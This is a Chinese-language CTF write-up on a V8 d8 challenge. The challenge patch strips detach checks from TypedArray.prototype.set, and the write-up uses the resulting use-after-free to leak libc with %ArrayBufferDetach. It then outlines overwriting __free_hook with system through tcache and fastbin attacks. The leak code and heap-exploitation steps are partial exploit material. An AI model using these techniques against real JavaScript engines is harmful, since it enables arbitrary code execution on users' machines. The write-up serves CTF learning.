


第一次做d8的题

### 环境

参考了2019师傅的博客，只要梯子不拉垮，一早上足够了。

### 题目分析

petch中有这么一部分内容：

```
diff --git a/src/parsing/parser-base.h b/src/parsing/parser-base.h
index 3519599a88..f1ba0fb445 100644
--- a/src/parsing/parser-base.h
+++ b/src/parsing/parser-base.h
@@ -1907,10 +1907,8 @@ ParserBase<Impl>::ParsePrimaryExpression() {
       return ParseTemplateLiteral(impl()->NullExpression(), beg_pos, false);
 
     case Token::MOD:
-      if (flags().allow_natives_syntax() || extension_ != nullptr) {
-        return ParseV8Intrinsic();
-      }
-      break;
+      // Directly call %ArrayBufferDetach without `--allow-native-syntax` flag
+      return ParseV8Intrinsic();
 
     default:
       break;
diff --git a/src/parsing/parser.cc b/src/parsing/parser.cc
index 9577b37397..2206d250d7 100644
--- a/src/parsing/parser.cc
+++ b/src/parsing/parser.cc
@@ -357,6 +357,11 @@ Expression* Parser::NewV8Intrinsic(const AstRawString* name,
   const Runtime::Function* function =
       Runtime::FunctionForName(name->raw_data(), name->length());
 
+  // Only %ArrayBufferDetach allowed
+  if (function->function_id != Runtime::kArrayBufferDetach) {
+    return factory()->NewUndefinedLiteral(kNoSourcePosition);
+  }
+
   // Be more permissive when fuzzing. Intrinsics are not supported.
   if (FLAG_fuzzing) {
     return NewV8RuntimeFunctionForFuzzing(function, args, pos);
```
出题人把--allow-native-syntax支持删了，这样就把%DebugPrint和%SystemBreak砍掉了，没法调试。保留了%ArrayBufferDetach，并且不需要--allow-native-syntax参数。

为了方便调试，对patch文件进行一点修改，就是将上面这一部分删掉，这样就可以愉快的调试了。

接下来我们去看一下剩下的patch：
```
diff --git a/src/builtins/typed-array-set.tq b/src/builtins/typed-array-set.tq
index b5c9dcb261..babe7da3f0 100644
--- a/src/builtins/typed-array-set.tq
+++ b/src/builtins/typed-array-set.tq
@@ -70,7 +70,7 @@ TypedArrayPrototypeSet(
     // 7. Let targetBuffer be target.[[ViewedArrayBuffer]].
     // 8. If IsDetachedBuffer(targetBuffer) is true, throw a TypeError
     //   exception.
-    const utarget = typed_array::EnsureAttached(target) otherwise IsDetached;
+    const utarget = %RawDownCast<AttachedJSTypedArray>(target);

     const overloadedArg = arguments[0];
     try {
@@ -86,8 +86,7 @@ TypedArrayPrototypeSet(
       // 10. Let srcBuffer be typedArray.[[ViewedArrayBuffer]].
       // 11. If IsDetachedBuffer(srcBuffer) is true, throw a TypeError
       //   exception.
-      const utypedArray =
-          typed_array::EnsureAttached(typedArray) otherwise IsDetached;
+      const utypedArray = %RawDownCast<AttachedJSTypedArray>(typedArray);

       TypedArrayPrototypeSetTypedArray(
           utarget, utypedArray, targetOffset, targetOffsetOverflowed)
diff --git a/src/d8/d8.cc b/src/d8/d8.cc
index 117df1cc52..9c6ca7275d 100644
--- a/src/d8/d8.cc
+++ b/src/d8/d8.cc
@@ -1339,9 +1339,9 @@ MaybeLocal<Context> Shell::CreateRealm(
     }
     delete[] old_realms;
   }
-  Local<ObjectTemplate> global_template = CreateGlobalTemplate(isolate);
   Local<Context> context =
-      Context::New(isolate, nullptr, global_template, global_object);
+      Context::New(isolate, nullptr, ObjectTemplate::New(isolate),
+                   v8::MaybeLocal<Value>());
   DCHECK(!try_catch.HasCaught());
   if (context.IsEmpty()) return MaybeLocal<Context>();
   InitializeModuleEmbedderData(context);
@@ -2260,10 +2260,7 @@ void Shell::Initialize(Isolate* isolate, D8Console* console,
             v8::Isolate::kMessageLog);
   }

-  isolate->SetHostImportModuleDynamicallyCallback(
-      Shell::HostImportModuleDynamically);
-  isolate->SetHostInitializeImportMetaObjectCallback(
-      Shell::HostInitializeImportMetaObject);
+  // `import("xx")` is not allowed

 #ifdef V8_FUZZILLI
   // Let the parent process (Fuzzilli) know we are ready.
@@ -2285,9 +2282,9 @@ Local<Context> Shell::CreateEvaluationContext(Isolate* isolate) {
   // This needs to be a critical section since this is not thread-safe
   base::MutexGuard lock_guard(context_mutex_.Pointer());
   // Initialize the global objects
-  Local<ObjectTemplate> global_template = CreateGlobalTemplate(isolate);
   EscapableHandleScope handle_scope(isolate);
-  Local<Context> context = Context::New(isolate, nullptr, global_template);
+  Local<Context> context = Context::New(isolate, nullptr,
+                                        ObjectTemplate::New(isolate));
   DCHECK(!context.IsEmpty());
   if (i::FLAG_perf_prof_annotate_wasm || i::FLAG_vtune_prof_annotate_wasm) {
     isolate->SetWasmLoadSourceMapCallback(ReadFile);
```

可以看到补丁将TypedArrayPrototypeSet中的两处Detach检查全部删去了，这就导致了uaf的产生

### 调试部分：

```
gdb d8
set args --allow-natives-syntax /path/to/js_file

%DebugPrint可以打印调试信息
%SystemBreak下断点

```

### 做题环节

###### leak：

代码：

```
var chunk0 = new Uint8Array(0x1000);
//%DebugPrint(chunk0.buffer);
var chunk1 = new Uint8Array(0x1000);
//%DebugPrint(chunk1.buffer);
var chunk2 = new Uint8Array(0x1000);
//%DebugPrint(chunk2.buffer);
var chunk3 = new Uint8Array(0x1000);

%ArrayBufferDetach(chunk0.buffer);
%ArrayBufferDetach(chunk1.buffer);
chunk2.set(chunk1);
```
调试如下：

chunk0:


chunk1:


```
pwndbg> x/20gx 0x5570a3249640
0x5570a3249640:	0x00007ff23cf3c560	0x0000000000001011
0x5570a3249650:	0x00005570a32441b0	0x00007ff23871cca0
0x5570a3249660:	0x0000000000000000	0x0000000000000000
0x5570a3249670:	0x0000000000000000	0x0000000000000000
```


chunk2:


```
pwndbg> x/50gx 0x5570a324a650
0x5570a324a650:	0x0000000000001010	0x0000000000001010
0x5570a324a660:	0x00005570a32441b0	0x00007ff23871cca0
0x5570a324a670:	0x0000000000000000	0x0000000000000000
0x5570a324a680:	0x0000000000000000	0x0000000000000000
```

可以看到我们只要将chunk2的内容取出就得到了libc基地址。

###### UAF

接下来就很常规了，tcache或fastbin attack将free_hook改为system，之后free（/bin/sh）即可

正常new Uint8Array()是会通过calloc来分配无法使用tcache，我们可以用下面的方法来使用malloc

```
function malloc(size){
    var chunk = {};
    chunk.length = size;
    var addr = new Uint8Array(chunk);
    return addr;
}
```


exp: [exp](./exp.js)

